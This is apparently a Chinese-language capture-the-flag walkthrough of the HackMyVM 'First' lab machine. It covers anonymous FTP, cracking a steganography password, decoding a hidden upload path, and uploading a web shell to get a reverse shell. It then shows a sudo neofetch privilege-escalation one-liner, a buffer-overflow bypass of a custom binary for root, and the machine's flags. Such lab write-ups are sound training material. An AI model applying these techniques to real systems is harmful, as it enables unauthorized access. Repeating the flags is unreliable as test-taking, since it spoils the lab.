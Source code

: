 # First

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=First

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆 first 中 first_Logo.jpg ， stegseek 爆破得到隐写密码: firstgurl1 ，解压后得到隐写文本：

```
SGkgSSBoYWQgdG8gY2hhbmdlIHRoZSBuYW1lIG9mIHRoZSB0b2RvIGxpc3QgYmVjb3VzZSBkaXJlY3RvcnkgYnVzdGluZyBpcyB0b28gZWFzeSB0aGVlc2UgZGF5cyBhbHNvIEkgZW5jb2RlZCB0aGlzIGluIGJlc2E2NCBiZWNvdXNlIGl0IGlzIGNvb2wgYnR3IHlvdXIgdG9kbyBsaXN0IGlzIDogMmYgNzQgMzAgNjQgMzAgNWYgNmMgMzEgNzMgNzQgNWYgNjYgMzAgNzIgNWYgNjYgMzEgNzIgMzUgNzQgZG8gaXQgcXVpY2sgd2UgYXJlIHZ1bG5hcmFibGUgZG8gdGhlIGZpcnN0IGZpcnN0IA==
```

```
Hi I had to change the name of the todo list becouse directory busting is too easy theese days also I encoded this in besa64 becouse it is cool btw your todo list is : 2f 74 30 64 30 5f 6c 31 73 74 5f 66 30 72 5f 66 31 72 35 74 do it quick we are vulnarable do the first first
```

hex 转换后 /t0d0_l1st_f0r_f1r5t 再次 web 目录扫描，发现http://192.168.5.40/t0d0_l1st_f0r_f1r5t/upload.php 上传文件存储在 http://192.168.5.40/t0d0_l1st_f0r_f1r5t/uploads/

上传一个 web shell，访问后得到反弹的 shell，先拿到了 user flag：

```
www-data@first:/home/first$ cat user.txt
3120a57478d631a5ef82ef5d96146389
```

sudo -l 显示 (first : first) NOPASSWD: /bin/neofetch

```
TF=$(mktemp); echo 'exec /bin/bash' > $TF; chmod +rx $TF
sudo -u first neofetch --config $TF
```

sudo -l 显示 (ALL) NOPASSWD: /bin/secret 是一个用户后添加文件，对其进行逆向。发现会出现缓冲区溢出漏洞，只要输入的字符超过 10 个就可以绕过 pass 限制。

绕过后，可以执行命令，直接 /bin/bash 拿到了 root 权限，得到 root flag:

```
root@first:~# cat r00t.txt
477d9a6aa33e3818ced1ad3015b53b43
```

